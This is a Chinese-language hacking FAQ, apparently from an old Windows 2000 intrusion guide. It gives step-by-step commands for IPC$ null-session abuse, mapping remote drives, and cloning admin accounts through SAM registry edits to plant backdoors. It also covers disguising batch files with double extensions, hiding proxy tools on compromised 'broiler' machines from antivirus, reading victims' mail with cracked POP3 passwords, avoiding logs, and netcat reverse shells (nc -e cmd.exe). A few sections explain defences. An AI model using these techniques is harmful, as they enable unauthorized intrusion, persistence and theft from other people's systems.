直接运行 tftpd32.exe 后，我们的电脑就成了一台 tftp 服务器（图20），默认监听 69 端口，服务器默认目录为 tftpd32.exe 所在目录。如果我们要上传的文件不在这个目录下，可以通过下方的“设置”按钮重新设置（图21）：在“服务器根目录位置”栏中输入新目录，另外监听端口也可以重新选定，确定后就可以了。

上传／下载命令如下：

```bash
tftp -i tftp服务器ip GET xxx.exe   （下载命令）
tftp -i tftp服务器ip PUT xxx.exe   （上传命令）
```

我使用的是 Windows2000 的专业版，我在系统中怎么找不到终端服务（3389）的客户端连接程序呀？

是的，在 Windows2000 专业版中并没有终端服务（3389）的客户端连接程序。我们必须手动安装终端服务的客户端连接程序，或者安装 WindowsXP 系统中的远程桌面连接程序（图22）。远程桌面连接程序在 Windows2000 下也是完全可以安装使用的。

建立了 ipc$ 空连接后到底有什么作用？

建立了 ipc$ 空连接后，就可以对远程机上的用户进行枚举了。除此之外，还可以访问任何一个 everyone 组有权限访问的文件或文件夹。在默认情况下，有 N 多甚至可以说是全部的文件夹都对 everyone 组有访问权限。而且默认情况下，everyone 组还对注册表键值有读权限，这个用 regedt32 就可以看出来（图23）。

从图中可以看到，everyone 组对于主键 HKEY_LOCAL_MACHINE 是有读权限的，当然其他键也是这样。这样的话，通过注册表就可以获得很多系统信息了。所以 ipc$ 的空连接是很可怕的。如果想查看关于 ipc$ 空连接的专业文章，可以到微软的 KB 中去搜索。

听人说使用 Windows9x/ME 系统无法进行 ipc$ 连接，有没有什么解决方法啊？

这个就要去找微软了，因为 Win98 和 WinME 系统中没有这个功能，只有 WinNT/2000/XP 及以上系统才可以建立 ipc$ 连接。

我经常在建立 ipc$ 连接的过程中碰到返回一个错误号的情况，这些号是干什么用的？

每个错误号都对应一个错误信息，下面列出错误号对应的信息和解决办法：

- 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限。
- 错误号 51，Windows 无法找到网络路径：网络有问题。
- 错误号 53，找不到网络路径：IP 地址错误；目标未开机；目标 lanmanserver 服务未启动；目标有防火墙。
- 错误号 67，找不到网络名：你的 workstation 服务未启动；目标删除了 ipc$。
- 错误号 1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个 ipc$，要先删除再连。
- 错误号 1326，未知的用户名或错误密码：原因很明显了。

错误号1792，试图登录，但是网络登录服务没有启动：目标 NetLogon 服务未启动（连接域控会出现此情况）。

错误号2242，此用户的密码已经过期：目标有账号策略，强制定期要求更改密码。

### 怎样打开目标的 IPC$？

这个比较麻烦，因为必须获得一个具有 admin 权限的 shell 才可以，然后用命令 `net share ipc$` 就可以了。

### 怎么样才能禁止别人与我进行 IPC$ 连接？

- a、删除默认共享：`net share ipc$ /del`。这样做起来很简单，但是下次启动系统的时候，系统还会再次打开，所以最好在启动项里加上一个批处理，里面写上：

```bash
net share ipc$ /del
net share admin$ /del
net share c$ /del
net share d$ /del
```

这个批处理文件实在太麻烦了点，如果愿意的话，还可以编写一个更短的批处理：

```bash
for %%x in (C$ D$ E$ F$ G$ admin$ ipc$) do net share %%x /del
```

只要把想删除的共享资源的共享名添加到 `in` 后面的括号中（注意每个共享名之间有空格）就可以了。

- b、利用注册表来禁止：  
  `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA` 下，把 `RestrictAnonymous` 的值改为 2。

- c、修改注册表来达到关闭所有默认共享的目的。  
  如果系统为 win2k svr 的话：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters` 下，把 `AutoShareServer`（DWORD 类型）改为 0。  
  如果系统为 win2k pro 的话：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters` 下，把 `AutoShareWks`（DWORD 类型）改为 0。

- d、关闭 IPC$ 使用的服务（lanman server）。  
  到“控制面板→管理工具→服务→Server”，停掉这个服务，并且把自动改为手动（图24）。

- e、其他方法。  
  正确地配置权限，去掉所有文件夹的 ACL 中的 everyone 组。然后加上一个强悍的密码。另外，使用防火墙软件指定规则，屏蔽掉 TCP 139 和 TCP 445 端口。

### 听说可以根据 ping 的结果来判断主机的操作系统类型，如何判断？

ping 一台主机的时候，会返回一个叫做 TTL（生存周期）值的东西，不同类型的操作系统的 TTL 值是不一样的。

例如，我 ping 一台 win2k 主机的话，可以看到返回的 TTL 值为 128（图25）。这样就可以判断对方为 win2k 的主机了。

另外，常见的 UNIX 系统的 TTL 值为 255。但是，TTL 值是可以修改的，因此使用 TTL 值判断系统，只能作为一种参考。

### 443—HTTPS，Secure HTTP 有什么用，可以进入吗？

这里的问法有点问题，因为 443 端口对应的服务是 SSL，是一个加密协议，是不能“进入”的。只能通过一些手段来截取通过该协议进行加密的数据。但是，SSL 是个相对比较高级的协议，而且加上其发展以及多方厂商的支持，致使该协议比较难以攻破，所以截取加密信息是比较难的。但是，也并不是 Mission Impossible。如果有兴趣的话，可以到一些国外知名的安全网站上找一些相关的英文资料，会带来不少帮助。由于篇幅问题，不多介绍了。

### 我想用 `nbtstat -a ip` 这个命令来获得对方的一些系统信息，但是结果却是“Host not found.”（图26），为什么？

- 确定三件事：  
  1. 对方是否在线？  
  2. 运行该命令的主机是否安装了 NETBEUI 协议？  
  3. 对方主机是否安装了 NETBEUI 协议？

### 怎么给文件起双后缀？比如，我有一个文件 `readme.txt`，想在后面加一个后缀 bat，怎么加？（实际执行的是 bat，一般看见的是 txt）

这种方法只能在特定的情况下才起作用。来到文件夹选项中，选择“查看”选项卡，然后找到“隐藏已知文件的扩展名”并去掉前面的勾（图27）。这时候，所有文件都会显示后缀了。这个时候，再编写一个批处理文件，将它命名为 `hack.txt.bat`，然后再回到文件夹选项中，选择“查看”，把“隐藏已知文件的扩展名”前的勾再勾上。这时候看到的那个批处理文件名就为 `hack.txt` 了。

另外，还可以使用命令进行修改，先建立一个 txt 文件，在里面写上批处理文件中的内容，然后使用命令。这样和上面的方法作用是相同的。

这种方法虽然具有一定的隐藏性，但是实际上非常容易被发现，不建议使用。

```bash
ren hack.txt hack.bat.txt
```

### 如何获得本网段内所有主机的 IP 地址？

- 介绍一个麻烦的方法，就是先用 `net view` 命令获得所有主机的主机名，然后一个一个地 `ping`，这样就可以获得主机 IP 了。

至于 `net view`，已经在 win98 的命令部分讲过了，这里不再赘述，ping 命令大家也都熟悉了。

这里我们用工具来获得 IP 地址。我们使用局域网超级工具，只要轻轻一点“搜索计算机”就可以找到所有活动主机了（图28）。

### 请问，我 telnet 别人的端口（不是 23 端口），但不知道用什么命令，好像什么命令都打不上去！

并不是所有的端口都能使用 telnet 进行连接。大部分程序对 telnet 并不响应，因此就出现了无法连接的情况。每个服务都有对应的端口，而每个服务也都有自己的连接方式。例如常见的 FTP 端口，我们就要使用 `ftp` 命令来进行连接。

### 常见到人们用 `telnet ip 80` 来获得 web 服务器的信息，怎么使用啊？

- 首先要 `telnet ip 80` 来连接对方的 80 端口。当呈现为黑屏并有光标闪动的情况下，便证明已连接。这时候只要用 GET 方法来获得主机的 web 服务器信息就可以了（图29）。可以看到，获得了主机的 web 服务器信息，得知该服务器的 web 发布是使用 Apache 服务器。

```bash
telnet ip 80
net view
ping <hostname>
ftp <host>
```

### 有什么好的工具来连接 SQL SERVER 吗？

如果安装了 SQL SERVER 的话，SQL SERVER 中提供了连接工具；如果没有安装的话，一般都是使用工具 `sqlexec.exe`，这是 sunx 的作品，很不错。界面蛮漂亮的，在 Host 后填上远程主机地址，User 后写上用户名（一般都是用管理员 sa 进行连接，所以这里默认写着的用户名就是 sa），Pass 后自然就是口令了，连接方式也可以选择（图30）。

其他的就是 SQL SERVER 中的相关知识了，就不多说了。如果大家还不了解的话，学习一下 SQL SERVER 的使用吧。

### 我找到一台路由器，但怎么才能连接上去？

路由器常见的连接方式是直接使用线缆连接，这时候要使用超级终端。这都是在调试新路由器的时候才使用的方法，因为这个方法需要调试人员站在路由器面前才可以。另一种就是 telnet 连接了，绝大部分路由器都会允许 telnet 连接，不过这都需要密码。因此，在获得密码的情况下，telnet 连接上路由器即可。

### 用 3389 远程登录后进行的操作，对方在屏幕上可以看到吗？

（假设这样一个环境：对方正在使用管理员在本机进行登录查看，而这时候你也在使用 Terminal Service 进行远程终端连接。）

我们使用简单的方法来查看，就是任务管理器。首先打开任务管理器，查看进程，可以看见当前进程数为 33（图31）。

这时候，我们选中任务管理器进程选项卡中的“显示所有用户的进程”。然后就会发现，用户进程增加到了 42 个（图32）。通过这些进程并不容易直接发现已有人远程连接到本机，但是只要对比进程，会发现有很多进程是相同的（因为这相当于有两个相同的用户同时登录主机），这就可以怀疑有人连接了。

如果嫌这个麻烦的话，还有一个更简单的方法：到管理工具中找到“终端服务管理器”，打开后就会发现当前有人与你进行连接，并且能清楚地看到这个人使用的是哪一个用户（图33）。

### 请问，怎么克隆肉鸡的管理员账号？

使用小榕的账号克隆工具 CA。使用方法比较简单（图34），关键问题就是要获得对方的管理员账号才可以。

> 注意：仔细看会发现，这里 usage 后面写的是 sa，而不是 ca，这大概是小榕的笔误吧。

假设获得远程主机 192.168.0.1 的管理员账号，然后使用命令：

```bash
ca \\192.168.0.1 python password
aaa python
```

这样就使用对方主机上已存在的一个账号 aaa 克隆了管理员账号 python（图35）。并且，克隆完成后，用户 aaa 密码为 python。

可以看到，在 connect 的时候就出错了，可见上面的判断是正确的。因此，要注意，IPC$ 共享对克隆账号的成败与否起关键作用。

### 小提示

在使用该工具克隆账号之前，根本没有建立什么 IPC$ 连接，所以我们可以猜想在克隆过程中包含了建立连接的过程。因此，如果对方的 IPC$ 共享被关闭的话，那么将不能正确地克隆账号。

为了证明这一点，我们仍以远程主机 192.168.0.1 为例，仍然对账号 python 进行克隆，而且依然是使用 aaa 这个账号，不同的是这次对方关闭了 IPC$ 共享。

```bash
ca \\192.168.0.1 python password aaa abcdef
```

克隆对方账号 python，使用 aaa 这个账号，密码克隆为 abcdef（图36）。

## 如何利用注册表克隆账号？

利用注册表克隆账号很简单，编写一个注册表脚本（*.reg 文件），内容如下：

```reg
——从这里开始========（此行不在脚本内）

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\user_name]
@=hex(1f4),
（注意，这里有至少一个回车）

——到这里结束========（此行不在脚本内）
```

上面的内容写到一个文本编辑器中，然后保存为 `clone_user.reg`。使用的时候，只要将 `user_name` 改为要进行克隆的用户的用户名就可以了。然后，就可以使用这个用户名进行登录，但是登录时的密码是 administrator 的密码。

## 简述一下克隆的原理：

来到注册表如下位置：  
`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`

在下面，先找到管理员的用户名，然后将其右窗口中的默认值导出（图37）。另外，再找一个普通用户（这里为用户 aaaa），做同样的工作。

用记事本分别打开这两个 reg 文件进行比较（图38），很显然，在 win2k 中，不是依靠用户名对用户权限进行识别的，而是 SID。而当 SID 最后三位为 500 的时候（十进制的 500 就是十六进制的 1F4），该用户就为管理员。只有在安装系统时默认系统创建的管理员的 SID 尾数才为 500。

从图中的比较不难看出，我们只要把用户 aaaa 这一行 `@=hex(411)` 改为 `@=hex(1f4)`，然后再导入注册表，那么该用户的 SID 尾数也将成为 500，那么他也是管理员了。这样，后门账号就这样完成了，很简单的，有兴趣的朋友试一下吧。

## 第六章

### 如何在 3389 机上下载文件，让它支持断点续传，或者可以用网际快车之类的软件下载呢？

可以把对方做成一个 FTP 服务器，或是通过使用 IIS。

方法一：使用 FTP。依次打开：控制面板→管理工具→Internet 服务管理器，找到“默认 FTP 站点”（图39）。

右键选择属性，然后选择“主目录”选项卡。在这里可以设置 FTP 的主目录，例如这里设置为 `e:\down`（图40）。

这里有几点要注意：一是要注意给自己足够的权限，干脆读取、写入权限都有。第二点，要注意千万不要记录日志，否则就露馅了。

然后直接在 IE 地址栏里输入 `ftp://ip`（或是使用 FTP 工具）即可访问对方。得到完整路径后，使用像网络蚂蚁这样的下载工具或 `cuteftp` 直接进行多线程下载就好了。

方法三：使用 web 下载。

假设要下载的文件在 `E:\down`，文件名为 `down.exe`。这时候，需要在 Internet 服务管理器中右键“默认 web 站点”，选择属性，然后选择“主目录”选项卡，通过点浏览，把 `e:\down` 文件夹设置为主目录。记住，也不要使用日志（图41）。然后在网络蚂蚁中添加新任务，路径为：

`http://ip/down.exe`

就可以多线程下载文件了。

### 怎样在肉机上建立代理？

- 建议使用软件：SkSockServer 和 CCProxy。

先讲一下 SkSockServer：

使用比较简单。首先，想办法上传 `SkSockServer.exe`，然后获得一个 shell（最好是 telnet 的 shell，因为这个小东西本来就是在命令行下配置的，虽然说有 GUI 版本，但是我更喜欢命令行下的版本）。直接键入 `SkSockServer` 会获得帮助信息（图42）。

首先运行命令安装：`SkSockServer -install`。等待一会，会有安装成功信息（图43）。

然后再进行端口配置：`SkSockServer --config port 5277` 就可以了（图44）。

这时候还不能用，因为服务还没有启动，所以我们还需要启动服务才可以：

`net start skserver`（图45）。这时候就可以使用这个代理服务器了。

```bash
E:\hack-tool\SkSockServer>net start skserver
Snake SockProxy Service 服务正在启动
Snake SockProxy Service 服务已经启动成功。

E:\hack-tool\SkSockServer>
```

接下来说一下 CCProxy：

这是一个 GUI 的代理工具，其实在肉鸡上运行很容易被发现，不过就其功能来说，实在是强大。界面蛮漂亮的（图46），使用起来也比较简单。

设置按钮（图47）：可以看到，支持很多协议，想做什么代理开什么就可以了。

另外，注意图47中的那个有一个字母“E”的按钮，点一下会发现，CCProxy 还有端口映射功能。它可以把远程主机的 TCP 或 UDP 端口映射到本机的一个端口上（图48），这样一来，对访问者来说带来了不少方便。

账号按钮（图49）：在这里，“允许访问”可以设置为“允许所有”“允许部分”“不允许部分”。

选择“允许部分”，点“新建”按钮，可以看到，针对每个用户可以设置用户名或密码，还可以设置连接哪种协议（HTTP、FTP 等等），功能十分强大（图50）。

通过简单介绍，想必大家也都了解如何使用了。

总的来说，如果在肉鸡上使用 CCProxy，比较容易被发现。不过可以通过点其隐藏按钮来将该软件图标隐藏到任务栏中，但还是比较容易被发现。所以这里再教大家一个方法：

结束它，这时候会发现桌面一片蓝色，什么都没有。再使用 `Ctrl+Alt+Del` 组合键激活“Windows 安全”，选择任务管理器，在“应用程序”选项卡中点“新任务”，然后输入 `explorer.exe` 并确定。这时候就会发现任务栏中的 CCProxy 代理图标不见了。

怎么样？一个不错的隐藏方法吧（虽然还是可以看见进程，但是安全多了，最重要的是 CCProxy 不会被当作后门软件被杀毒软件查杀）。对于开两个 3389 的肉鸡，可以尝试一下使用 CCProxy 哦！

### 怎么使用代理啊？我不会设置。

大部分可以连接到 Internet 上的软件都会有设置代理的地方，首先说一下 IE。

依次打开：工具→Internet 选项→连接。在这里停住，如果是拨号连接的话，先要选择当前使用的连接（图52），然后点“设置”，在这里就可以设置代理服务器了，注意正确填写地址和端口（图53）。

打开任务管理器，并到进程选项卡中，找到 `explorer.exe` 这个进程（图51）。

图53

如果是使用局域网上网的话，在“连接”选项卡中，直接点“局域网设置”（图54）。

图54

然后正确填写 IP 地址和端口号就可以了（图55）。

为网络蚂蚁设置代理：

点击“选项”→“参数设置”，在这里选择“代理”选项卡，点“添加”，选择代理的类型（图56）。

图55

图56

图57

在这里，我选择了 SOCKS5 类型的代理，然后填写上正确的地址和端口后点“确定”即可。回到“代理”选项卡中，选中刚才添加的代理，然后在下面的“HTTP 默认值”“FTP 默认值”以及“所有任务都使用默认代理”前打上勾，这样就可以保证所有的任务都是通过代理来下载的了（图57）。

为扫描工具 x-scan 设置代理：

点击“设置－扫描参数”，然后在弹出的卡片中选择“代理服务器”卡片（图58），在这里填写上代理服务器的地址和端口即可。

图58

图59

也许大家注意到，x-scan 这里需要的是 HTTP 代理，不过不要紧，只要使用 SOCKS5 代理就可以了。

## 为你的 QQ 设置代理

打开 QQ 后，点 QQ 左下角的“QQ2000”图标，然后选择“参数设置”，里面有一个卡片为“网络设置”。在这里，在“使用 SOCKS5 代理”前打上勾，然后填写上代理的 IP 地址和端口号就可以了（图59）。

### 为 OE 设置代理

其实根本不需要这部分，只是给大家做个提醒而已。因为 Outlook Express 是和 IE 整合在一起的，因此，当 IE 的代理被设置成功后，OE 就会自动使用这个代理来进行收发邮件了。

### 什么是 NTLM 验证？

NTLM = NT LAN MANAGER。我们经常碰到的 Win2000/XP/2003 的 telnet 服务就是 NTLM 验证。如果使用 NTLM 身份验证，则客户使用 Windows 2000 安全上下文进行身份验证，并不会提示用户键入用户名和密码，用户名和密码是加密的。

## 怎样解决 telnet 的“到主机的连接丢失”？

引起这种问题的原因大部分是 NTLM 验证的问题。解决的方法有三个。一个是上传 ntlm.exe 到对方的系统上，并使用 at 命令来运行它，然后再开启对方的 telnet 服务，这样在登录的时候就只需要输入用户名和密码就可以了。第二个是使用 opentelnet.exe 程序，只需要拥有对方系统中的一个具有管理员权限的账号，就可以使用这个工具更改对方 telnet 服务的验证方法为不使用 NTLM 验证。

除了以上两种方法之外，还有一个不需要使用任何工具的方法，也可以达到清除 NTLM 验证的目的。

首先到 `c:\winnt\system32`（Win2k 安装在 C 盘的情况）中找到 `cmd.exe`，并为它创建一个快捷方式，然后右键这个快捷方式，并选择“属性”中的“快捷方式”选项，在“以其他用户身份运行”前打上勾（图60），然后点“确定”。

这时候，在你的计算机中建立一个与对方管理员用户名和密码相同的用户（如果你和对方的管理员名均为 administrator，那么就修改你的密码和对方密码相同。另外要注意，要保证在本地机上的这个用户也是管理员才可以），然后再运行 `cmd.exe` 的这个快捷方式。这时候会弹出对话框询问你要以哪个用户身份运行该程序（图61），填写上刚才建立的那个和对方相同的用户名和密码之后点“确定”，这时候再 telnet 过去就可以取消掉 NTLM 验证了。

建立 ipc$ 连接的时候，出现“提供的凭据与已存在的凭据集冲突。”是怎么回事（图62）？

这是因为在此之前已经和对方建立了 ipc$ 连接，先删除连接，再进行 ipc$ 连接就可以了（图63）。

图63

例如，这里我要使用微软拼音输入法的话，就先在本地机上找到微软输入法的帮助文件所在位置。至于如何查找文件的帮助和位置，可以像使用输入法漏洞一样，先右键输入法条，然后选“帮助”，在弹出帮助中，右键蓝色窗口条，选“跳至 URL”，在这里上面的部分就有输入法的路径和帮助文件名了（图64）。然后到这个路径下，找到输入法的帮助文件并上传到对方的相应目录中。这时候，再用终端服务客户端连上去就可以用输入法漏洞了。

一台机器有输入法漏洞，但是按 Shift+Ctrl 切换输入法后，右键并点“帮助”，总是没有帮助栏弹出来啊？

我想，对方应该是简单地把输入法的帮助文件删除而已，而并不是通过打补丁的办法来解决问题的。所以，这样的机器也并不是很难入侵，不过关键问题是要获得另外一个漏洞。如果连输入法漏洞都有的话，嘿嘿，那可漏洞多多了，随便找个漏洞，将要使用的输入法的帮助文件上传到对应的目录中去，然后就可以使用输入法漏洞了。

我知道一台可以用 IPC$ 连接到的 Win2000 的 administrator 和密码，可是我每次连接上以后用 `dir c:\` 所看到的都是本机的 `c:\`，请问这是为什么啊？

`ipc$` 只是一种连接，并不是登录。只有登录到对方的主机上才能查看对方的资源（当然，也要有权限才可以）。但是，这并不代表建立了连接就没有办法，我们可以使用 `dir` 命令。`dir` 命令在 Win2k 中是带 IP 参数的（在 Win98 中是否有我没有试过），命令为：`dir \\ip\c$`（图65）。

图64

图65

这样就可以查看对方默认共享的 C 盘了（当然，前提是建立 ipc$ 连接，而且建立的时候使用的用户要有查看权限）。

另外，还可以先使用命令 `net use z: \\ip\c$`，先将对方的 C$ 盘映射到本地的 Z 盘，然后再 `dir z:\` 来查看资源（图66）。（前提也是建立 ipc$ 连接并有足够的权限）

```bash
net use z: \\***.***.***.***\c$
/user:admin
```

返回提示：密码在 `\\***.***.***.***\f$` 无效。为什么？

这个命令还真够有创意的。我还是头一次看到，看来把概念给搞混了。在映射对方磁盘前，我们要先建立 ipc$ 连接；这一步完成后，才可以开始映射磁盘，把对方的 C 盘映射到本地的 Z 盘。

```bash
net use \\x.x.x.x\ipc$ "pass" /user:"name"
net use z: \\x.x.x.x\c$
```

如何使用得到的 POP3 弱口令？

除了帮人家收信以外，也没什么太好的办法了。不过不要小看这些信件，有可能会带给你一些入侵相关的有用信息哦。

教大家配置一下 OE 来收信吧（会的就不要看了）：打开 OE（Outlook Express）后，点击“工具”菜单，选择“账户”，弹出 Internet 账户卡；选择“邮件”卡片，点“添加”按钮，然后选择“邮件”，出现向导框（图67），按提示填写。这里 POP3 地址填写扫描到弱口令主机的 IP，用户名和密码填写扫到的用户和口令。

配置完成后，在 OE 的主页面点“发送/接收”就可以了。

### 小提示

POP3 会把邮件下载到本地，这样容易引起一些人的怀疑。所以，我们可以进行这样的设置：在 OE 的主界面选择“工具—选项”，然后选择“维护”选项卡，这里有一项“新闻邮件下载 X 天后即被删除”（图6.6）。在这里把天数设置得长一些，这样就不用担心你收完邮件后那位朋友再收信的时候就收不到了。

| 参数 | 说明 |
|---|---|
| `-h` | 帮助信息 |
| `-w secs` | 延时的时间间隔 |
| `-l` | 监听模式（用于入站连接） |
| `-n` | 指定数字 IP 地址（不能用 hostname） |
| `-o file` | 记录 16 进制传输 |
| `-p port` | 本地端口号 |
| `-r` | 任意指定本地及远程端口 |
| `-s addr` | 本地源地址 |
| `-u` | UDP 模式 |
| `-v` | 详细输出（用两个 `-v` 可得到更详细内容） |
| `-w secs` | timeout 时间 |
| `-z` | 扫描模式（将输入输出关闭） |

## 如何确定一主机的 POP3 服务器的地址？

一般默认情况下，一些大型站点的 POP3 服务器就是 `pop3.xxx.com` 这种形式的，当然，也有特殊的，例如 263 信箱的地址等等。

但是，一般的中小型企业的邮件服务器一般都是和 Web 服务器放置在同一台主机上的，所以说，可以用最简单的形式进行判断，那就是直接取得对方的 IP 地址，只要 `ping` 一下对方的域名就可以了。这样，就相当于取得了 POP3 的地址。这种方法针对大多数的 Web 站点都是很有效的。

## 我用的 NC 的参数怎么这么少啊？

现在的 NC 我见过两个版本，一个是被编译过的，个头很小，大概是 20K 左右；另外一个则大一些，大小为 58K 左右。两个 NC 大小不同，参数也有不同，个头小的一些 NC 大概要比编译过的 NC 多两三个参数。不要小看这两三个参数，很有用的，所以建议使用 58K 的 NC。

## NC 都是英文啊，参数解释都看不懂，贴篇中文的 NC 参数解释吧

这个好说，NC 参数的中文版：

| 参数 | 说明 |
|---|---|
| `-e prog` | 程序重定向，一旦连接就执行（危险） |
| `-g gateway` | source routing hop point[s]，up to 8 |
| `-G num` | source routing pointer: 4, 8, 12, ... |

## 如何使用 NC 进行端口扫描？

使用 NC 进行扫描有两种方法，一种是扫描 TCP 端口，另外一种则是扫描 UDP 端口。

扫描 TCP 端口：

```bash
nc -vv -z ip_address(machine_name) port-port
```

例如，使用这个命令：`nc -vv -z python 1-150`，扫描主机名为 python 的主机的 TCP 端口 1 至 150（图69），可以看到每个端口对应的服务名和开放状况。

图69

```bash
nc -z -v -u ip_address(machine_name) port-port
```

扫描 UDP 端口：`nc -z -v -u ip_address(machine_name) port-port`。例如，命令 `nc -z -v -u python 1-200` 则是扫描 python 的 1 到 200 号 UDP 端口（图70）。

图70

### 如何使用 NC 建立反向连接？

首先，要在本地机上运行命令 `nc -vv -l -p 5277`，这样就是在本地机上打开 5277 端口进行监听。然后，随便你使用什么方法，在远程主机上运行命令 `nc -e cmd.exe ip_address(machine_name) 5277`。这个命令的作用是在远程主机上将远程主机的 `cmd.exe` 这个 shell 绑定到指定的 IP 地址（或主机名）的主机的 5277 端口上，这样就可以理解为远程机从某个端口与本地机的 5277 端口连接。这样，你就在本地机的 5277 端口上获得一个 shell（图71）。从图中可以看出，远程主机 `2xx.xxx.xxx.252` 反向主动连接到了我的主机上（`2xx.xxx.xxx.250`），这样，我就获得了对方主机的 shell 了，我可以为所欲为了，哈哈，爽啊。

图71

## ncx99 是什么东西，和 nc 有什么区别吗？

你的肉鸡运行了 ncx99 以后，你将可以从 99 端口处获得一个 shell。而且连接方式是 telnet，因此只要直接 `telnet ip 99` 就可以了。但是，如果手头没有 ncx99，只有 NC（未被编译过的版本）的话，使用 NC 带上它的一些参数，可以达到相同的目的。命令格式为：

`nc -vv -l -p 5277 -e cmd.exe` 的作用就是监听本地的 5277 端口，并且将 `cmd.exe` 重定向到 5277 这个端口。这样，当远程主机 telnet 到本地机的 5277 端口的时候，`cmd.exe` 就会响应，这样就获得了一个 shell 了（图72）。

我登录 3389 主机，却出现超过了允许的最大连接数的错误，我也有管理员权限，该怎么办？

2000 Server 终端服务好像同时只可以上 2 个连接，不管你在配置里如何设置。在 3389 中，“断开”和“注销”是两个不同的概念，虽然一个用户断开了，但他的会话并没有停止，他下次登录时可以直接进入上次断开的会话，而不需要重新初始化新的会话。在这种情况下系统仍会认为有 2 名用户连接，所以会出错。当你注销一个用户连接后就可以了。

解决办法：telnet 连接到主机上，使用命令查看：`query user`，可以看到当前的连接状况（图73）。

图中只有一个人进行连接，也许在这里你会看到两个人在连接中，你只要给其中的一个用户注销掉就可以了，这里使用命令为：`logoff 1`（图74）。

注销成功后，再查看一下用户，可以的话就赶快连上去，不然手慢了就又……

请问 3389 终端服务有什么快捷键啊？

- CTRL+ALT+END：打开“Windows 安全”对话框。
- ALT+PAGE UP：从左向右在程序之间切换。
- ALT+PAGE DOWN：从右向左在程序之间切换。
- ALT+INSERT：按启动顺序在程序之间切换。
- ALT+HOME：显示“开始”菜单。
- CTRL+ALT+BREAK：在窗口（如果适用）和全屏显示之间切换客户端。
- ALT+DELETE：显示窗口的弹出式菜单。
- CTRL+ALT+减号（-）：将客户端活动窗口的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 ALT+PrintScrn 键时功能相同）。
- CTRL+ALT+加号（+）：将整个客户端窗口区域的快照放在“终端”服务器的剪贴板上（与在本地计算机上按下 PrintScrn 键时功能相同）。

## 3389 登录会留下什么记录，如何清除？

不用怕啦，盖茨怕黑客们不敢通过 Terminal Service 登录，所以他特别注意到了日志记录这方面。在盖茨的关照下，Terminal Service 默认情况下是没有任何日志和记录的；但是，有一点要注意，就是系统的审核以及一些应用程序的日志，这些有可能会留下你的脚印，不过相比之下，清除这些记录要轻松得多了。

以上讨论的是正常方式下的日志和记录，如果使用 Terminal Service 连接过程中出现意外的话，就有可能会被记录下 IP 地址。最常见的就是当用户以终端方式登录后又发生了中断，这时候系统才会记录客户机的 IP 以及机器名。但是，上有政策，下有对策，就是在记录 IP 这一部分处，有一点点小 bug 哦。

系统在记录终端方式的客户机 IP 地址的时候，如果你的客户机处于一个局域网中，通过透明网关的方式访问服务器，在服务器上留下的 IP 也只是你内网的 IP 地址。所以说，如果你的内部网络的 IP 是 192.168.0.1 这种最最通俗的方法进行排列的话，呵呵，那即使对方记录了 IP 地址也是没有用的。

## 如何远程确定对方的 Terminal Service 是否开放？

如果手头没有扫描工具的话，确实比较难判断对方服务是否开放；另外一种情况就是对方修改了服务端口，也比较麻烦。所以，这里我们使用 resource kit 中的 SC 来直接查看服务，而不是通过端口进行查看。

```bash
sc \\ip_address(machine_name) qc termservice
```

这时候，根据返回信息就可以判断对方的服务是开启状态还是关闭状态或是被禁止的状态（图75）。

根据返回的信息中这两项：`START_TYPE: 2 AUTO_START`；`ERROR_CONTROL: 1 NORMAL`，基本上就可以断定对方的 Terminal Service 服务是开启的。

## 得到对方的 admin 权限，但是我想得到对方的用户列表，怎么做？

如果可以获得一个 shell 的话，直接用命令 `net user` 就可以看了。不过，获得 shell 的过程也许会比较麻烦，这里教大家一个简单的方法——连接注册表。

## 黑客入侵常见问题

首先要保证双方使用 Win2k 的计算机。

得到 admin 以后，先和对方建立 ipc$ 连接。

然后打开本地的注册表编辑器，选择“注册表”菜单，在里面选择连接网络注册表（图76）。

有可能会遇到连接对方注册表后无法显示该键值的情况。例如，我连接的这台主机就只能显示到 HKEY_LOCAL_MACHINE\SAM\SAM（图77）。发生这种情况的主要原因是因为没有正确地设置权限，不用怕，我们还有办法。

开始-运行，输入 regedt32，回车，弹出了另外一个注册表编辑器（图78）。

